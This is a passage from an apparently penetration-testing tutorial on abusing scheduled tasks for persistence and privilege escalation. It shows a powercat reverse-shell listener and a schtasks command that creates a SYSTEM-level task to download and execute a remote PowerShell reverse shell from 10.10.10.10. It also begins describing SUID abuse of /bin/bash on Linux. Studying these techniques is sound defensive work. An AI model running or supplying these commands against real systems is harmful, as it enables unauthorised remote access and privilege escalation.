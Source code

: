     ```bash
    powercat -l -v -p 443
    ```
    
    - Powercat is a PowerShell-based tool for creating reverse shells. By listening on port 443, an attacker can receive incoming connections from compromised machines running malicious scripts.

---

1. **Creating and Running a Scheduled Task in Windows**
    
    To execute a malicious script using Windows Task Scheduler, the following command creates a new scheduled task that will run with SYSTEM privileges.
    
    ```bash
    schtasks /create /S DOMAIN /SC Weekly /RU "NT Authority\SYSTEM" /TN "enterprise" /TR "powershell.exe -c 'iex (iwr http://10.10.10.10/reverse.ps1)'
    ```
    
    **Flags Explanation:**
    
    - `/S DOMAIN`: Specifies the domain controller or target machine.
    - `/SC Weekly`: Sets the task to run weekly.
    - `/RU "NT Authority\SYSTEM"`: Runs the task with SYSTEM privileges, which are the highest possible on Windows.
    - `/TN "enterprise"`: Specifies the task name.
    - `/TR "powershell.exe -c 'iex (iwr http://10.10.10.10/reverse.ps1)'"`: The task executes a PowerShell script downloaded from a remote server, which in this case could establish a reverse shell.
    
    Once the task is created, it can be manually triggered with:
    
    ```bash
    schtasks /run /s DOMAIN /TN "enterprise"
    ```
    
    This command forces the task to run immediately.
    

---

### Key Takeaways on Windows Scheduled Task Abuse

- **Misconfigurations**: If users are allowed to create or modify tasks with elevated privileges (e.g., SYSTEM), attackers can leverage scheduled tasks for persistent access or elevate their privileges.
- **Exploitable Commands**: The combination of `schtasks` and PowerShell can be used to run arbitrary commands or download malicious scripts from a remote server.

---

### Abusing Scheduled Tasks on **Linux**

1. **Setting the SUID Bit on /bin/bash**
The SUID (Set User ID) bit allows a program to execute with the privileges of the file owner (typically root), even if the user running it does not have those privileges. Setting the SUID bit on `/bin/bash` can allow an attacker to run a shell with root privileges.
    